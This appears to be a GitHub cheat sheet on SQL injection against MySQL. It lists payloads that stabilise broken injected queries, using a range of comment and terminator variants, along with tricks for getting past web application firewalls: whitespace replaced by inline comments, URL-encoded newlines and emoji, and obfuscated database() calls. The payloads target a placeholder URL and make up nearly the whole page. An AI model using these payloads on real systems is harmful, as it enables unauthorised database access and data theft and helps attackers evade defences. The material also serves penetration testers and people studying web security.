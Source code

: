 

[](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/MySQL%20-%20Stabilise%20%26%20Bypass#stabilise-the-error-message)

Whenever the website keeps showing up erros on MySQL syntax, it is required to enter queries to fix the error. This usually happens when server doesn't accept `-- -` inside the queries.

`http://domain.com/index.php?id=1' order by 1)--`  
`http://domain.com/index.php?id=1' order by 1))--`  
`http://domain.com/index.php?id=1' order by 1;%00`  
`http://domain.com/index.php?id=1' order by 1));%00`  
`http://domain.com/index.php?id=1' order by 1;%60`  
`http://domain.com/index.php?id=1' order by 1%23`  
`http://domain.com/index.php?id=1' order by 1%60`  
`http://domain.com/index.php?id=1' order by 1%90`  
`http://domain.com/index.php?id=1'%23/* order by 1`  
`http://domain.com/index.php?id=1') order by 1`  
`http://domain.com/index.php?id=1' order by 1") ;%00`  
`http://domain.com/index.php?id=1' order by 1#--+`  
`http://domain.com/index.php?id=1' order by 1'))%23`

If MySQL Syntax Error still persists, simply try again the payloads, but this time, without `-- -`

## Whitespace WAF-based bypass

[](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/MySQL%20-%20Stabilise%20%26%20Bypass#whitespace-waf-based-bypass)

Whenever the WAF blocks the query to include space/whitespace, you can easy replace with the following payloads:

```
/**/
/**_**/
%23nuLL%0A
%23qa%0A%23%0A
%23foo*%2F*bar%0D%0A
+
```

For example, you can replace the whitespaces on the following payload:  
`http://domain.com/index.php?id=1' order by 1-- -`  
with  
`http://domain.com/index.php?id=1'/**/order/**/by/**/1--/**/-`  
or with  
`http://domain.com/index.php?id=1'%23nuLL%0Aorder%23nuLL%0Aby%23nuLL%0A1--%23nuLL%0A-`  
and so on...

## Whitespace Bypass via Emoji

[](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/MySQL%20-%20Stabilise%20%26%20Bypass#whitespace-bypass-via-emoji)

```
/*️*/
/*️⃣*/
```

For example:  
`http://domain.com/index.php?id=1'/*️*/order/*️*/by/*️*/1--/*️*/-`

## WAF blocks retrieving information from database()

[](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/MySQL%20-%20Stabilise%20%26%20Bypass#waf-blocks-retrieving-information-from-database)

Simply replace `database()` with one of the following payload:  
`database/*badd*//**/()`  
`database%23%0A(%23%0A)`